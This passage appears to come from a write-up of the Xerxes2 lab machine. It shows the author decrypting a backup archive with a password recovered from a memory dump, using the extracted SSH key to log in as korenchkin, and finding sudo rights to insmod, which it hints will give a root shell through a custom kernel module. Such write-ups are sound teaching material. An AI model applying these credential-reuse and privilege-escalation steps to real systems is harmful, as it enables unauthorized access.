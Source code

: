 Heh, ok. Easy enough. `korenchkin.tar.enc` was encrypted using `openssl`. We can simply decrypt this with the `-d` flag. From the dump we were able to get the password used too:

```bash decrypting korenchkin.tar.enc
polito@xerxes2:~$ openssl enc -d -salt -aes-256-cbc -pass pass:c2hvZGFu -in /opt/backup/korenchkin.tar.enc -out ~/korenchkin.tar

polito@xerxes2:~$ file korenchkin.tar 
korenchkin.tar: POSIX tar archive (GNU)

polito@xerxes2:~$ tar xvf korenchkin.tar 
.ssh/id_rsa
.ssh/id_rsa.pub
polito@xerxes2:~$
```

Extracting `korenchkin.tar` revealed a SSH key pair, so to become korenchkin I copied the SSH key to my Kali VM and SSH in as `korenchkin`:

```bash SSH as korenchkin
root@kali:~# ssh -i korenchkin.key korenchkin@192.168.56.102

Welcome to xerxes2.
      XERXES wishes you
       a pleasant stay.
____   ___  ____  ___  __ ____   ___  ____     ____     ____   
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb  
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb 
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM 
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM' 
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'    
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'      
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM 

You have new mail.
korenchkin@xerxes2:~$
```

_You have new mail._

##becoming root
Again, enumeration is key. As `korenchkin`, you will see that you may run.

```bash korenchkin sudo
korenchkin@xerxes2:~$ sudo -l
Matching Defaults entries for korenchkin on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User korenchkin may run the following commands on this host:
    (root) NOPASSWD: /sbin/insmod, (root) /sbin/rmmod
```

So we may run insmod as `root`. Immediately this hints towards the fact that we will need to write a custom kernel module and maybe spawn a shell? And so, we board another educational school bus ride towards kernel module land.
